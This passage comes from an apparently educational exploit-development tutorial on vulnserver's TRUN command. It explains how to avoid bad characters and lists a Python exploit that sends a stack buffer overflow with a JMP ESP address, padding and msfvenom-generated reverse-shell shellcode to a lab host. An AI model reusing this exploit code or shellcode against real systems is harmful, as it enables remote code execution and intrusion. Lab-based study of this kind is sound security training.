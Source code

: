 ![Generating reverse shell](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331207/blog/vulnserver-trun/msfvenom1_sggiak.webp)

</div>

As a rule of thumb, get used to generate shellcodes without bad chars
that may break the execution flow of our attack, such as null bytes
(`0x0`), line feed (`\r or 0xa`), and carriage return (`\n or 0xd`). You
can see a detailed way of checking for bad chars on
[LTER](../vulnserver-lter-seh/) article.

Also, note that our `JMP ESP` led us to our `C` but not exactly at the
beginning, so we must pad the exploit with some `C` chars to make the
payload slide gracefully to the start of our reverse shell.

Let’s update the exploit:

**exploit.py.**

``` python
import socket
import struct

HOST = '192.168.0.23'
PORT = 9999

SHELL =  b""
SHELL += b"\xb8\x9e\x3b\xe5\xc4\xda\xcf\xd9\x74\x24\xf4\x5d"
SHELL += b"\x2b\xc9\xb1\x52\x31\x45\x12\x83\xc5\x04\x03\xdb"
SHELL += b"\x35\x07\x31\x1f\xa1\x45\xba\xdf\x32\x2a\x32\x3a"
SHELL += b"\x03\x6a\x20\x4f\x34\x5a\x22\x1d\xb9\x11\x66\xb5"
SHELL += b"\x4a\x57\xaf\xba\xfb\xd2\x89\xf5\xfc\x4f\xe9\x94"
SHELL += b"\x7e\x92\x3e\x76\xbe\x5d\x33\x77\x87\x80\xbe\x25"
SHELL += b"\x50\xce\x6d\xd9\xd5\x9a\xad\x52\xa5\x0b\xb6\x87"
SHELL += b"\x7e\x2d\x97\x16\xf4\x74\x37\x99\xd9\x0c\x7e\x81"
SHELL += b"\x3e\x28\xc8\x3a\xf4\xc6\xcb\xea\xc4\x27\x67\xd3"
SHELL += b"\xe8\xd5\x79\x14\xce\x05\x0c\x6c\x2c\xbb\x17\xab"
SHELL += b"\x4e\x67\x9d\x2f\xe8\xec\x05\x8b\x08\x20\xd3\x58"
SHELL += b"\x06\x8d\x97\x06\x0b\x10\x7b\x3d\x37\x99\x7a\x91"
SHELL += b"\xb1\xd9\x58\x35\x99\xba\xc1\x6c\x47\x6c\xfd\x6e"
SHELL += b"\x28\xd1\x5b\xe5\xc5\x06\xd6\xa4\x81\xeb\xdb\x56"
SHELL += b"\x52\x64\x6b\x25\x60\x2b\xc7\xa1\xc8\xa4\xc1\x36"
SHELL += b"\x2e\x9f\xb6\xa8\xd1\x20\xc7\xe1\x15\x74\x97\x99"
SHELL += b"\xbc\xf5\x7c\x59\x40\x20\xd2\x09\xee\x9b\x93\xf9"
SHELL += b"\x4e\x4c\x7c\x13\x41\xb3\x9c\x1c\x8b\xdc\x37\xe7"
SHELL += b"\x5c\x23\x6f\xe7\x88\xcb\x72\xe7\xa1\x57\xfa\x01"
SHELL += b"\xab\x77\xaa\x9a\x44\xe1\xf7\x50\xf4\xee\x2d\x1d"
SHELL += b"\x36\x64\xc2\xe2\xf9\x8d\xaf\xf0\x6e\x7e\xfa\xaa"
SHELL += b"\x39\x81\xd0\xc2\xa6\x10\xbf\x12\xa0\x08\x68\x45"
SHELL += b"\xe5\xff\x61\x03\x1b\x59\xd8\x31\xe6\x3f\x23\xf1"
SHELL += b"\x3d\xfc\xaa\xf8\xb0\xb8\x88\xea\x0c\x40\x95\x5e"
SHELL += b"\xc1\x17\x43\x08\xa7\xc1\x25\xe2\x71\xbd\xef\x62"
SHELL += b"\x07\x8d\x2f\xf4\x08\xd8\xd9\x18\xb8\xb5\x9f\x27"
SHELL += b"\x75\x52\x28\x50\x6b\xc2\xd7\x8b\x2f\xe2\x35\x19"
SHELL += b"\x5a\x8b\xe3\xc8\xe7\xd6\x13\x27\x2b\xef\x97\xcd"
SHELL += b"\xd4\x14\x87\xa4\xd1\x51\x0f\x55\xa8\xca\xfa\x59"
SHELL += b"\x1f\xea\x2e"

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    # 62501205   FFE4             JMP ESP
    struct.pack('<L', 0x62501205) +
    b'C' * 32 +
    SHELL +
    b'C' * (5000 - 2003 - 4 - 32 - len(SHELL))
)
```